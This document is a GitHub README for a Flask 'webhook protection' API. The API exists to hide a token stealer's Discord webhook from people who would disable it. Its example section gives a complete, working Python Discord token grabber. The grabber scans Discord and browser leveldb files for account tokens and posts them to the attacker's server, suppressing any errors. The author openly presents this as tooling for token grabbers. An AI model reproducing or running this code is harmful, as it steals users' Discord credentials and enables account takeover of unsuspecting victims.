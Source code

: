 # Discord Webhook Protection

 A Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# set paths to where tokens are stored
localappdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': os.path.join(roaming, 'Discord'),
    'Discord Canary': os.path.join(roaming, 'DiscordCanary'),
    'Discord PTB': os.path.join(roaming, 'DiscordPTB'),
    'Google Chrome': os.path.join(localappdata, 'Google', 'Chrome', 'User Data', 'Default'),
    'Opera': os.path.join(roaming, 'Opera Software', 'Opera Stable'),
    'Brave': os.path.join(localappdata, 'BraveSoftware', 'Brave-Browser', 'User Data', 'Default'),
    'Yandex': os.path.join(localappdata, 'Yandex', 'YandexBrowser', 'User Data', 'Default')
}

# grab tokens
tokens = []

for platform, path in paths.items():
    path = os.path.join(path, 'Local Storage', 'leveldb')

    if os.path.exists(path) is False:
        continue

    for item in os.listdir(path):
        if (item[-4:] in ('.log', '.ldb')) is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

# send tokens to the webhook protection API that will validate them and send them to your Discord server over webhook
try:
    data = {'secret': SECRET, 'tokens': tokens}

    # note that using json=data, requests module automatically sets the Content-Type header to application/json
    requests.post(f'http://{API_IP}:{API_PORT}/grab', json=data)
except:
    pass
```

Don't judge the token grabber. I made it simple to understand, not efficient : P

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py` (It's recommened to set up a proper production WSGI server)

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [ ] Support multiple tokens in a single request using `,` seperator
